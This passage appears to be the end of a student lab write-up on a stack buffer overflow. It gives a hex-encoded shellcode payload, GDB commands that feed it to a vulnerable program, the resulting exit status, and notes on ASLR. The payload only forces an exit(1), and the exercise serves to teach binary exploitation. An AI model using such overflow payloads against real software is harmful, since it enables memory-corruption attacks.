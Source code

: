 ```sh
$ echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff" > egg
```

## Documentation of Proofs

To execute the exploit, run:

```
(gdb) run < egg
```

or

```
(gdb) run <<< $(echo -ne "\x31\xc0\x40\x89\xc3\xcd\x80\x90\x90\x90\x90\x90\x18\xcd\xff\xff")
```

Which should successfully terminate the program with desired exit status:

```
[Inferior 1 (process 1075597) exited with code 01]
```

---

## Conclusion

Stack smashing is an archaic method of binary exploitation and past computers are vulnerable against this type of exploitation.
However, thanks to the Address Space Layout Randomization (ASLR) that modern operating systems are equipped with, it would be very difficult to execute this exploit in the current times.
Aside from ASLR, the `egg` machine code would not work universally to different computers due to how memory layouts are arranged since not every computers have the same memory size and the same applications ran.
Nonetheless, this is a fun exercise and we have learned a lot from it.

Solution files can be found here:

- [egg](https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/egg)
- [exploit.py](https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/exploit.py)
- [shellcode.asm](https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/shellcode.asm)
- [shellcode.o](https://github.com/0x42697262/CMSC134-Writeups/blob/main/Machine_Problem_1/solutions/shellcode.o)

---

## Acknowledgement and References

- [LiveOverflow](https://www.youtube.com/@LiveOverflow) for usage of GDB.
- [Phrack Volume 7 Issue 49: Smashing The Stack For Fun And Profit](http://phrack.org/issues/49/14.html) for teaching us on smashing the stack.
- [Practical Binary Analysis](https://practicalbinaryanalysis.com/) for teaching assembly and basics of ELF.
- [Shell-Storm](https://shell-storm.org/shellcode/index.html) for providing shellcodes.
